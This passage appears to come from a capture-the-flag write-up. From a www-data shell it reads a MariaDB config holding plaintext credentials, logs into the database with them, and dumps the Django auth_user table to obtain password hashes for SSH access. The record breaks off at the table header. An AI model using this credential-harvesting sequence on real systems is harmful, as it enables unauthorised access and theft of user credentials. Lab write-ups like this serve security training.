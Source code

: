 ```
# 3. "/etc/mysql/mariadb.conf.d/*.cnf" to set MariaDB-only options.
# 4. "~/.my.cnf" to set user-specific options.
#
# If the same option is defined multiple times, the last one will apply.
#
# One can use all long options that the program supports.
# Run program with --help to get a list of available options and with
# --print-defaults to see which it would actually understand and use.

#
# This group is read both both by the client and the server
# use it for options that affect everything
#
[client-server]

# Import all .cnf files from configuration directory
!includedir /etc/mysql/conf.d/
!includedir /etc/mysql/mariadb.conf.d/

[client]
database = dev
user = djangouser
password = DjangoSuperPassword
default-character-set = utf8
www-data@writer:/etc/mysql$ mysql -u djangouser -h localhost -p
mysql -u djangouser -h localhost -p
Enter password: DjangoSuperPassword

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
```
### Obtaining password hasehes
Now, we will login to the mysql database and try to obtain the credentials to login to the ssh server. 
```
MariaDB [dev]> show tables;
show tables;
+----------------------------+
| Tables_in_dev              |
+----------------------------+
| auth_group                 |
| auth_group_permissions     |
| auth_permission            |
| auth_user                  |
| auth_user_groups           |
| auth_user_user_permissions |
| django_admin_log           |
| django_content_type        |
| django_migrations          |
| django_session             |
+----------------------------+
10 rows in set (0.000 sec)

MariaDB [dev]> select * from auth_user;
select * from auth_user;
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
| id | password                                                                                 | last_login | is_superuser | username | first_name | last_name | email           | is_staff | is_active | date_joined                |
```